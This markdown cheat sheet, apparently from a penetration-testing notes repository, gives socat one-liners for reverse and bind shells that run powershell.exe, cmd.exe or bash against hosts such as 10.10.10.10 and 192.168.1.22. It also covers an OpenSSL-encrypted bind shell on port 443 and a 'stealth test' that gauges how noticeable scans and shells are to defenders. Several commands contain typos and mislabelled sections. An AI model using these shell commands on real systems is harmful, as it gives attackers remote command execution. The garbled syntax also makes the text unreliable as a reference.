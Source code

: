 # Socat Shells

## Windows shell
`pipes` - forces pwsh or cmd to use unix style standard input / output.

Reverse Shell
```sh
socat TCP:10.10.10.10:4200 EXEC:powershell.exe,pipes
```

## Linux
Reverse Shell
```sh
socat tcp-l:4200 -
socat tcp-l:4200 FILE:`tty`,raw,echo=0
```
Listener
| Arg | Description |
| --- | ----------- |
| `pty` | pseudoterminal on target |
| `stderr` | make sure any error messages get shown in the shell |
| `signt` | creates process in new session |
| `sane` | normalize |
```sh
socat TCP:10.10.10.10:4200 EXEC"bash -li",pty,stderr,signt,setsid,sane
```

Bind Shell
```sh
socat TCP-L:4200 EXEC:"bash -li"

```

Listener
```sh
socat TCP:10.10.10.10:4200 -
```
## Stealth Test
Perform the following tests to see how noisy the command is:

### 1. Choose an interface to monitor
`ip a` - View networking information

`eth0` - Selected interface

### 2. Setup a Filter in Wireshark & Capture
Set `tcp.port == 23` in the filter and press capture to monitor traffic.

### 3. Run Scan
`nmap -sV -sC 192.168.1.1 23` 

### 4. View results in Wireshark
By default "Nmap" is printed as the User-Agent making it easily detectiable by defenders. 

### 5. Socat Reverse Shell
A reverse shell gives you access back to the target computer.

```sh
socat -d TCP4-LISTEN:23, fork STDOUT
#or
socat.exe TCP4:192.168.1.22:23 EXEC:'cmd.exe', pipes

```

## 6. Use Encryption

```sh
socat OPENSSL-LISTEN:443,cert-bind_shell.pem,verify=0,fork EXEC:/bin/bash
```



